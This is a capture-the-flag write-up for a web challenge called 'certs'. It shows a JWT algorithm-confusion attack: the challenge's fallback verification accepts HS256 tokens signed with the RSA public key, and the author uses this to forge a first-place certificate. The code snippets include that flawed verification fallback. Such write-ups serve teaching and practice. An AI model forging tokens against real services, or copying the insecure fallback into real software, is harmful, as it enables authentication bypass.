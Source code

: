 # certs
## Description
https://certs.chall.pwnoh.io
## Author
mbund
## Resources
`export.zip` - source code
## Solution
0. By auditing the source code, we can find that program use `jwt` and one of the point of `jwt hack` is to replace the `alg` value in order to pass `verify` function.
1. The fallback of `verify` function will let it pass `publicKey` in text to verify.
    ```javascript
        try {
            const result = await jose.jwtVerify(
                token,
                await jose.importSPKI(publicKey, "RS256")
            );
            return result.payload as any;
            } catch (e) {
            try {
                const result = await jose.jwtVerify(
                token,
                new TextEncoder().encode(publicKey)
                );
                return result.payload as any;
            } catch (e) {}
            }
    ```
2. Therefore since we already have the `publicKey` which was used to verify signiture in `RS256`, we can just simply change the `RS256` in `alg` to `HS256` (the symmatric encryption version of `RS256`) and encrypt it by `publicKey` to bypass the verification.
3. Comment out the first-place check under `/api/certify`.
    ```javascript
        // if (place === 1) {
        //   return new Response(
        //     "The grand winner must be manually signed by an admin.",
        //     { status: 401 }
        //   );
        // }

    ```
4. Change the code under `/api/certify` from `RS256` to `HS256`:
    ```javascript
    const token = await new jose.SignJWT({ team, place })
            .setProtectedHeader({ alg: "HS256" })
            .sign(new TextEncoder().encode(publicKey));
    ```
4. `docker-compose up` the container on local, and generate a new cert PDF encrypted by `HS256` and `publicKey`.
5. Done!